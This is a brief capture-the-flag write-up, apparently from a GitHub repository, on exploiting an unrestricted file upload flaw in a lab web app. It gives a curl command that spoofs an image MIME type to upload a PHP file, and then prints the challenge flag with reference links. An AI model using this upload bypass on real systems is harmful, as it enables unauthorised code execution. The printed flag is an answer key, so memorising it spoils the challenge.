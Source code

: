 # Unrestricted File Upload 
Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed.

### Step 1
Navigate to http://0.0.0.0/?page=upload
> * try uploading image files => uploads
> * try uploading .php files => not uploaded

### Step 2 
* Attack
Use curl to upload a file by specifiying image MIME-type
> * curl -F 'Upload=submit' -F 'uploaded=@hack.php;type=image/jpeg' http://0.0.0.0/?page=upload
**The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8** 

https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

https://resources.infosecinstitute.com/php-lab-file-upload-vulnerabilities/

https://curl.haxx.se/mail/archive-2003-04/0135.html

https://medium.com/@gupta.bless/exploiting-unrestricted-file-upload-vulnerabilities-4831aa839b25